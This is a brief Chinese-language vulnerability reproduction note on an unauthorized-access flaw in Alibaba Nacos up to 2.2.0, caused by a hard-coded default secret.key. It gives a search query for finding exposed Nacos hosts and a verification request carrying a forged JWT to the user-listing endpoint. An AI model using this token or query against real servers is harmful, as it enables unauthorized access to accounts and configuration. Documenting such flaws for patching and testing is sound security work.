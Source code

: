 # Alibaba Nacos secret.key默认密钥 未授权访问漏洞

## 漏洞描述

Alibaba Nacos 使用了固定的secret.key默认密钥，导致攻击者可以构造请求获取敏感信息，导致未授权访问漏洞

## 漏洞影响

```
Alibaba Nacos <= 2.2.0
```

## 网络测绘

```
app="NACOS"
```

## 漏洞复现

登陆页面

![image-20230417093555107](images/image-20230417093555107.png)

漏洞原因是使用了固定的Key

![image-20230417093624167](images/image-20230417093624167.png)

验证POC

```
/nacos/v1/auth/users?accessToken=eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MTY5ODg5NDcyN30.feetKmWoPnMkAebjkNnyuKo6c21_hzTgu0dfNqbdpZQ&pageNo=1&pageSize=9
```

![image-20230417093649928](images/image-20230417093649928.png)